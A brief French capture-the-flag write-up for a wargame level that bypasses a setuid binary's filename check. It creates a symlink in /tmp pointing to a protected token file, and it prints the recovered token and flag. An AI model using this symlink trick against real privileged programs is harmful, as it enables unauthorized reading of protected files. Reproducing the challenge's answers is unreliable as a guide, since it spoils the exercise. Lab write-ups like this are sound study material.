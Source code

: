 1. `token` semble être le flag mais on n'a pas les droits
2. `./level08` a les droits pour le lire mais une sécurite nous empêche de lire un fichier nommé `token`
3. Procédé
   ```
   mkdir /tmp/sandbox
   cd /tmp/sandbox
   ln -s ~/token fakeshit
   cd ~
   ./level08 /tmp/sandbox/fakeshit
   ```
4. token=`quif5eloekouj29ke0vouxean`

> Flag: 25749xKZ8L7DkSCwJkT9dyv6f
